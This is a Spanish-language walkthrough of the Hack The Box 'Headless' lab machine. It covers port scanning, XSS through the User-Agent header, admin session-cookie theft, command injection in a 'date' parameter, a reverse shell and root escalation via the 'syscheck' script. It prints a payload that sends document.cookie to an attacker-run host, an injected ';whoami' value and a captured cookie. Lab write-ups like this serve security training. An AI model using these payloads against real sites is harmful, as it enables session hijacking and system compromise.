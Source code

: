 
## Enumeración de puertos/servicios

Se realizó un escaneo de puertos en la dirección IP 10.10.11.8 utilizando la herramienta `nmap`, lo que reveló la presencia de dos puertos abiertos:


``` bash 
sudo nmap -sCVT 10.10.11.8
```

- Puerto 22 (SSH)
- Puerto 5000 (Posiblemente un servicio web)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/cc1af630-4f2d-477d-b696-6a4e17f1ece6)

Además, se realizó un análisis de la página web en el puerto 5000 mediante un fuzzing en busca de directorios, lo que proporcionó información adicional sobre posibles puntos de entrada.


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/850f9ad0-3187-4e0d-a5cc-1eabf2706e0f)


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/d4766bf4-277e-4c2b-a129-c646d98be7d6)


## Detección de vulnerabilidades

Se identificaron posibles vulnerabilidades en la aplicación web en el puerto 5000, incluyendo un posible XSS (Cross-Site Scripting) y una posible inyección de comandos. 

Se llevó a cabo una exploración más profunda para encontrar formas de explotar estas vulnerabilidades.

## Explotación de vulnerabilidades

Tras una exploración más profunda, se descubrió que la aplicación web en el puerto 5000 tenía medidas de seguridad activas que detectaban y bloqueaban intentos de manipulación. Al intentar realizar un XSS directamente, la página devolvía un mensaje indicando "hacking attempt detected".


``` javascript
<script>alert(‘XSS’)</script>
```

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/241dc6dd-04dd-4d20-891a-94850e1c1e4e)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/33cdc751-0bcf-4ee8-b42f-ab14de7a8d6c)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2f294528-ef0f-4640-9183-55b033e60dd9)

Para sortear esta protección, se observó que la aplicación no filtraba ni validaba el User-Agent en las solicitudes HTTP. Se decidió entonces realizar un ataque XSS desde el User-Agent. Se construyó un payload XSS en forma de etiqueta `<img>` con un atributo `onerror` que ejecutaría una solicitud a un servidor controlado por el atacante, capturando así la cookie de sesión del administrador. Esta cookie luego se podría utilizar para obtener acceso al dashboard como administrador.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/f69baa5f-7213-4eb9-b143-225fbb06289b)


Tras ejecutar con éxito el payload XSS desde el User-Agent y capturar la cookie de sesión del administrador, se procedió a autenticarse en el dashboard como administrador y a explorar las funcionalidades disponibles en busca de nuevas vulnerabilidades para explotar.

Posteriormente, se identificó una vulnerabilidad de inyección de comandos en el parámetro 'date' del dashboard, lo que permitió ejecutar comandos en el sistema remoto. Se aprovechó esta vulnerabilidad para ejecutar un script de reverse shell y obtener acceso al sistema comprometido.


El problema es que no me servía ya que yo no tenia una web a la que me la redirigiese así que cree un python3 server para enviarme la cookie session ahí.


``` javascript
<img src=x onerror=fetch('http://10.10.14.168/?cpplie='+document.cookie);>
```


 Después de lanzar el python server lanzo el xss mediante burpsuite y lo envío

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/7e6235d8-677f-46ee-baee-f669a02da363)

Al enviarlo me devuelve en el server la cookie del admin, que es la siguiente:

cookie: "ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0"


Una vez se cambia la cookie a is_admin, ya nos dejara entrar a dashboard

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/9f4cb784-9d61-481b-928a-ddba6b524c6b)

Inspeccionando el dashboard me doy cuenta que en el burpsuite se envia un parametro llamado date.
En este parametro intento hacer un RCE inyectando lo siguiente:

date=2023-09-15; whoami

Despues de enviar la petición veo que no me da ningun tipo de error y me devuelve el nombre del user del server. 

Una vez veo que puedo hacer un RCE, intento hacer una reverse shell simple pero no me funciona asi que pruebo a crear un archivo llamado rev.sh en el cual escribo la reverse shell .

Intento hacer un curl  al python server para exportar el archivo y a su misma vez ejecuto un nc.


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/b68edf39-9e86-499a-8c37-2eca9830b174)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/75378874-c1d1-4c2b-bbcd-beef2b1602d0)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/73428c24-ed07-4899-bb0e-a78eb2c43f3b)

Y funciona, ya tenemos acceso a la maquina.

Una vez dentro me dirijo a la carpeta /home/dvir y hacemos un cat  al archivo user.txt

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ad2d1ffb-445b-42df-a178-6521a399b907)


## Escalada de Privilegios

Una vez dentro del sistema comprometido, se procedió a la escalada de privilegios. Se identificó un archivo llamado `syscheck` que podía ser ejecutado con privilegios de root. Este script, utilizado para verificar el estado del sistema, presentaba una vulnerabilidad que permitía la ejecución de comandos con privilegios de root sin autenticación.

Mediante la explotación de esta vulnerabilidad, se logró obtener privilegios de root en el sistema comprometido.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ef519537-4488-459c-ab50-e8887d954826)

Me llama la atención el párrafo del final. 
Decido hacerle un cat al archivo proporcionado (/usr/bin/syscheck) y nos devuelve un script en bash.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/1db49c30-e4b8-4324-a3a6-919e955efb91)

1. **Verificación de permisos de root**:
    
    - El script comienza verificando si se está ejecutando como el usuario root. Esto se hace comparando el ID de usuario efectivo (`$EUID`) con 0, que es el ID de usuario del root en la mayoría de los sistemas Unix. Si el ID de usuario efectivo no es 0, el script sale con un código de salida 1, lo que indica un error.
    
1. **Última modificación del kernel**
    
	- Utiliza el comando `find` para buscar archivos de kernel (`vmlinuz*`) en el directorio `/boot`.
    - Usa el comando `stat` para obtener la marca de tiempo de la última modificación de cada archivo de kernel encontrado.
    - Ordena estas marcas de tiempo de manera numérica (`sort -n`) y toma la última usando `tail`.
    - Utiliza `date` para formatear la marca de tiempo en un formato legible y la almacena en la variable `formatted_time`.
    - Imprime la fecha y hora de la última modificación del kernel.

1. **Espacio de disco disponible**:
    
    - Usa el comando `df` para mostrar el uso de espacio en disco del sistema de archivos donde está montado `/`.
    - El comando `awk` se utiliza para extraer la cantidad de espacio disponible.
    - Imprime la cantidad de espacio disponible.
    
4. **Carga promedio del sistema**:
    
    - Utiliza el comando `uptime` para obtener la carga promedio del sistema.
    - Utiliza `awk` para extraer la carga promedio del resultado.
    - Imprime la carga promedio del sistema.

5. **Verificación del servicio de base de datos**:
    
    - Utiliza `pgrep` para verificar si el proceso llamado "initdb.sh" está en ejecución.
    - Si no se encuentra el proceso (`pgrep` devuelve un código de salida diferente de 0), imprime un mensaje indicando que el servicio de base de datos no está en ejecución y lo inicia ejecutando el script `initdb.sh`.
    - Si el proceso se encuentra en ejecución, imprime un mensaje indicando que el servicio de base de datos está en ejecución.

Finalmente, el script sale con un código de salida 0, indicando que se ha ejecutado correctamente.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2b547132-09ac-47f5-8799-bbdc674e991d)

Despues de ejecutar el script initdb.sh ya estamos en el user root asi que ya podemos acceder en el directorio root.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ea9720f4-2e2c-44a7-857f-2fad1f1b0ab7)


**Conclusiones:** El proceso de análisis, detección de vulnerabilidades y explotación demostró la importancia de una sólida metodología de pruebas de penetración. La identificación de vulnerabilidades y la comprensión de su explotación son aspectos críticos en la seguridad de la información, destacando la necesidad de una mitigación proactiva de riesgos y una gestión eficaz de la seguridad.

El acceso obtenido al sistema comprometido resalta la importancia de mantener los sistemas actualizados, parcheando vulnerabilidades conocidas y siguiendo las mejores prácticas de seguridad.
